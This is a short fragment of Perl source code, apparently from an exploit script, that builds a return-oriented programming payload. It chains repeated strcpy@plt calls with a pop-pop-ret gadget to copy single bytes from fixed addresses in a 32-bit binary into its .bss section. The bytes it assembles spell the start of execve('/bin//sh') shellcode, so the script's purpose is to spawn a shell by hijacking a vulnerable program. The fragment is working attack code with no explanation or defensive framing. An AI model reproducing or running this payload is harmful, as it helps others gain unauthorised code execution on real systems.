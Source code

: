 	# \xb0
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+4);
	$payload .= pack('L', 0x0804832c);

	# \x0b
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+5);
	$payload .= pack('L', 0x080481fc);

	# \x51
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+6);
	$payload .= pack('L', 0x08048114);

	# \x68
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+7);
	$payload .= pack('L', 0x080482f6);

	# \x2f
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+8);
	$payload .= pack('L', 0x08048134);

	# \x2f
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+9);
	$payload .= pack('L', 0x08048134);

	# \x73
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+10);
	$payload .= pack('L', 0x08048142);

	# \x68
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+11);
	$payload .= pack('L', 0x080482f6);
